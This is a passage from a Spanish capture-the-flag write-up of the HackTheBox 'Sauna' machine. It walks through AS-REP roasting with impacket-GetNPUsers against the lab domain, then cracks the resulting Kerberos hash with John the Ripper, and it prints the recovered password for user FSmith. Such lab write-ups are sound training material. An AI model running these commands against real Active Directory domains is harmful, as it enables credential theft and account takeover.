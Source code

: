 

Como tenemos una lista muy larga de posibles usuarios, tenemos que automatizar el proceso de la siguiente manera 

```zsh
while read user; do impacket-GetNPUsers egotistical-bank.local/"$user" -request -no-pass -dc-ip 10.10.10.175 >> hash.txt; done < variaciones_nombres.txt
```

| **Comando**                                         | **Descripción**                                                                                           |
|-----------------------------------------------------|-----------------------------------------------------------------------------------------------------------|
| `while read user; do ... done < variaciones_nombres.txt` | Lee cada línea del archivo `variaciones_nombres.txt` y la guarda en la variable `user`.                       |
| `impacket-GetNPUsers egotistical-bank.local/"$user"`| Ejecuta la herramienta `impacket-GetNPUsers` para el dominio `egotistical-bank.local` y el usuario leído.   |
| `-request`                                          | Solicita un TGT (Ticket Granting Ticket) para el usuario sin necesidad de preautenticación.               |
| `-no-pass`                                          | Especifica que no se necesita una contraseña para la solicitud.                                           |
| `-dc-ip 10.10.10.175`                               | Indica la dirección IP del controlador de dominio (DC).                                                   |
| `>> hash.txt`                                       | Guarda el resultado (hash de la contraseña) en el archivo `hash.txt`.                                      |

Mientras se ejecuta el bucle, se irá escribiendo información en el archivo `hash.txt`. Para monitorear el progreso, podemos abrir dos ventanas: una para ejecutar el script y otra para observar el avance del archivo. En este proceso, encontramos que un usuario tiene deshabilitada la opción **"No requerir preautenticación Kerberos"**.

<figure>
<img src="/assets/img/Sauna/imagen5.png" >
</figure>

En este punto, ya contamos con el nombre de usuario y el TGT (Ticket Granting Ticket). A continuación, copiaremos todo el TGT en un nuevo archivo y utilizaremos **John the Ripper** para proceder con el cracking.

Tenemos la contraseña 

```zsh
john hash --wordlist=/usr/share/wordlists/rockyou.txt                 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Thestrokes23     ($krb5asrep$23$FSmith@EGOTISTICAL-BANK.LOCAL)     
1g 0:00:00:05 DONE (2024-10-20 05:30) 0.1788g/s 1885Kp/s 1885Kc/s 1885KC/s Tiffani1432..Thehunter22
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
